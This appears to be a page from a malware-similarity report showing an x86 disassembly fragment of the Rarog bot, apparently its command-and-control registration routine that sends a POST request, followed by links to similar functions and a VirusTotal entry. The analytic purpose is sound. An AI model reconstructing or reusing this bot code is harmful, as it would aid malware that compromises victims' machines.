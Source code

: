 mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___Bot_not_registered__send_request
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.POST
mov byte[ecx],bl
call fcn.00401caf
lea esi,[ebp-0x2a0]
mov byte[ebp-4],0x1c
call fcn.00409711
mov dword[ebp-0x480],eax
lea ebx,[ebp-0x268]
mov byte[ebp-4],0x1d
call fcn.00409483
mov dword[ebp-0x494],eax
lea esi,[ebp-0x2f4]
mov byte[ebp-4],0x1e
call fcn.00409528
mov dword[ebp-0x498],eax
lea esi,[ebp-0x2bc]
mov byte[ebp-4],0x1f
call fcn.004096c6
mov dword[ebp-0x490],eax
lea esi,[ebp-0x2d8]
mov byte[ebp-4],0x20
call fcn.004095f7
mov dword[ebp-0x484],eax
lea esi,[ebp-0x3b8]
mov byte[ebp-4],0x21
call fcn.004031ef
mov dword[ebp-0x48c],eax
lea esi,[ebp-0x47c]
mov byte[ebp-4],0x22
call fcn.00403214
mov ebx,eax
lea esi,[ebp-0x444]
mov byte[ebp-4],0x23
call fcn.0040940d
mov edi,eax
lea esi,[ebp-0x364]
mov byte[ebp-4],0x24
call fcn.0040933e
push eax
lea eax,[ebp-0x348]
push 0x428a00
push eax
mov byte[ebp-4],0x25
call fcn.004029ac
add esp,0xc
push 0x4291c0
push eax
lea eax,[ebp-0x3d4]
push eax
mov byte[ebp-4],0x26
call fcn.004029e3
add esp,0xc
mov ecx,eax

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6